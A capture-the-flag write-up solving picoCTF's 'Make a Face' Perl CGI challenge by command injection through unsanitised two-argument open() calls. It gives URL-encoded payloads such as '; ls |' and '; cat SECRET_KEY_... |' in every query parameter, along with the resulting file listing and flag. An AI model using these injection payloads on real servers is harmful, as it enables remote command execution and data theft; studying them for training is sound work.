 ## Make a Face
This challenge is from Pico CTF. We are given a link to a web application built using Perl. Our goal is to find any vulnerability in the perl script so that we can execute shell in the server. 

After some googling, it is easy to find out that perl's (2-arguments form) ```open(FILEHANDLER, filename)``` function has a security flaw: luckily, several ```open()``` functions appear in the source code. 
```
  open(HEAD,"head".$q->param('Head'));
  open(HAIR,"hair".$q->param('Hair'));
  open(NOSE,"nose".$q->param('Nose'));
  open(MOUTH,"mouth".$q->param('Mouth'));
  open(EYES,"eyes".$q->param('Eyes'));
```

The security flaw here is that the second argument of these ```open()``` functions comes from user input which is not sanitized at all. A normal usage through the browser would not trigger any vulnerability; however, it is possible that a user sends arbitrary data that may not correspond with the data types specified in html and/or javascript. See the following code block that creates the form

```
$q->table(
    $q->Tr($q->td([$q->b("Head"),$q->input({-name=>"Head",-type=>'range',-min=>1,-max=>4})])),
    $q->Tr($q->td([$q->b("Hair"),$q->input({-name=>"Hair",-type=>'range',-min=>0,-max=>2})])),
    $q->Tr($q->td([$q->b("Nose"),$q->input({-name=>"Nose",-type=>'range',-min=>1,-max=>3})])),
    $q->Tr($q->td([$q->b("Mouth"),$q->input({-name=>"Mouth",-type=>'range',-min=>1,-max=>3})])),
    $q->Tr($q->td([$q->b("Eyes"),$q->input({-name=>"Eyes",-type=>'range',-min=>1,-max=>3})]))
   ),
```
The input type of these variables are set to ```range```, but we can set these variables to anything we want using ```curl``` or any other means. 

Let's get back to the vulnerablity in the ```open(FILEHANDLER, filename)``` function. If the filename begins with "|", the filename is interpreted as a command to which output is to be piped, and if the filename ends with a "|", the filename is interpreted as a command which pipes output to us. So we can run any shell command in that directory of the filename. What we should pay attension to is that we have strings attached before our input, for example, "nose" for ```open(NOSE,"nose".$q->param('Nose'));```. To overcome this nuisance, we can simply attach ";" before the our input, so that ```nose;``` will be read as a command (obviously invalid), followed by the command that we supply. 

Also we must understand how user input is sent over to the server (the CGI script). Taking a look at the line ```<script src="/js.js" type="text/javascript"></script>``` and checking the content of ```js.js```, we see the following snippet. 
```
 var image = new Image();
  image.src = "index.cgi?Head="+head.value+".bmp&Hair="+hair.value+".bmp&Nose="+nose.value+".bmp&Mouth="+mouth.value+".bmp&Eyes="+eyes.value+".bmp";
```
So our data is sent to the CGI script using GET method through URL. Since we are using special characters "|", " " and ";", we have to URL encode our input. Say we want to see the inside of the directory by issuing the command "ls". We can achieve this by supplying "; ls |", which is url-encoded to "%3Bls%20%7C". 

This is not complete though. Another small complication lies in the block
```
  while (read(HEAD,$headb,1)) {
    read(HAIR,$hairb,1);
    read(NOSE,$noseb,1);
    read(MOUTH,$mouthb,1);
    read(EYES,$eyesb,1);
    print (chr (ord($headb)&ord($hairb)&ord($noseb)&ord($mouthb)&ord($eyesb)));
  }
```

```ord()``` function returns the numerical (ASCII) value of the first character in the string, while ```chr()``` does the opposite. So what this loop does is that it enumerates through all the chracters in the string, perform Bitwise AND on the numerical values of the characters in corresponding indices, and then convert the result back to a character. This is easy to bypass - we just set all the user inputs to the exact same input.  

Now let's exploit. Simply feed the following URL.
```
http://makeaface.picoctf.com/index.cgi?Head=%3Bls%20%7C&Hair=%3Bls%20%7C&Nose=%3Bls%20%7C&Mouth=%3Bls%20%7C&Eyes=%3Bls%20%7C
```
This will return us a corrupted .bmp file. That's fine, just change the extension to .txt, and we can see the output of the "ls" command. The first result looks interesting
```
SECRET_KEY_2b609783951a8665d8c67d721b52b0f8
css.css
eyes1.bmp
eyes2.bmp
eyes3.bmp
eyes4.bmp
hair0.bmp
hair1.bmp
hair2.bmp
head1.bmp
head2.bmp
head3.bmp
head4.bmp
index.cgi
js.js
mouth1.bmp
mouth2.bmp
mouth3.bmp
nose1.bmp
nose2.bmp
nose3.bmp
```
So let's ```cat``` and see its content. This time, the command we want to feed is ```; cat SECRET_KEY_2b609783951a8665d8c67d721b52b0f8 |```, which is equivalent to ```%3B%20cat%20SECRET_KEY_2b609783951a8665d8c67d721b52b0f8%20%7C```. Do the same as before, and open the txt file. 
The flag is ```why_did_we_stop_using_perl_again?```
